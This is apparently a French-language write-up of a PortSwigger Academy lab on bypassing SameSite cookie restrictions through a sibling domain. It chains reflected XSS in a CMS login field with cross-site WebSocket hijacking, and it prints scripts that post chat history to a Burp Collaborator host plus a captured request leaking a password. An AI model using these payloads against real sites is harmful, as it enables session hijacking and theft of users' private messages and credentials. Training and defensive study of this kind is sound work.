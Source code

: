 # Lab

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain

## Solution

Avec ce script, on arrive bien a récupérer l'historique du chat WS mais d'une nouvelle session puisque les headers ne sont pas envoyés.

```js
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Nous devons trouver un moyen de bypasser les contrôles de SameSite.

Sur la requête envoyée vers `/js/chat.js` on voit dans les headers de la réponse : `Access-Control-Allow-Origin: https://cms-0a5e00bb03b5e2928278ecf600700089.web-security-academy.net`.

Quand on accès à ce site on voit une page de connexion et quand on entre un mauvais username, il est reflété dans la réponse.

On peut donc faire du XSS avec le username par exemple :

`https://cms-0a5e00bb03b5e2928278ecf600700089.web-security-academy.net/login?username=<script>alert()</script>&password=`

On peut donc injecter notre POC CSRF dans l'url :

```js
<script>var ws = new WebSocket('wss://your-websocket-url');ws.onopen=function(){ws.send("READY");};ws.onmessage=function(event){fetch('https://your-collaborator-url',{method:'POST',mode: 'no-cors',body:event.data});};</script>
```

`https://cms-0a5e00bb03b5e2928278ecf600700089.web-security-academy.net/login?username=%3Cscript%3Evar%20ws%20=%20new%20WebSocket(%27wss://0a5e00bb03b5e2928278ecf600700089.web-security-academy.net/chat%27);ws.onopen=function(){ws.send(%22READY%22);};ws.onmessage=function(event){fetch(%27https://rkfzow0m94k1o4ab837keua5jwpndf14.oastify.com%27,{method:%27POST%27,mode:%20%27no-cors%27,body:event.data});};%3C/script%3E&password=lololo`

Et dans l'exploit serveur envoyer ce script :

```html
<script>window.location='https://cms-0a5e00bb03b5e2928278ecf600700089.web-security-academy.net/login?username=%3Cscript%3Evar%20ws%20=%20new%20WebSocket(%27wss://0a5e00bb03b5e2928278ecf600700089.web-security-academy.net/chat%27);ws.onopen=function(){ws.send(%22READY%22);};ws.onmessage=function(event){fetch(%27https://rkfzow0m94k1o4ab837keua5jwpndf14.oastify.com%27,{method:%27POST%27,mode:%20%27no-cors%27,body:event.data});};%3C/script%3E&password=lololo'</script>
```

Et sur Burp Collaborator on peut récupérer l'histoire du chat :

```http
POST / HTTP/1.1
Host: rkfzow0m94k1o4ab837keua5jwpndf14.oastify.com
Connection: keep-alive
Content-Length: 82
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://cms-0a5e00bb03b5e2928278ecf600700089.web-security-academy.net
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: https://cms-0a5e00bb03b5e2928278ecf600700089.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

{"user":"Hal Pline","content":"No problem carlos, it's oa4uyy5of98qtzpdxjod"}
```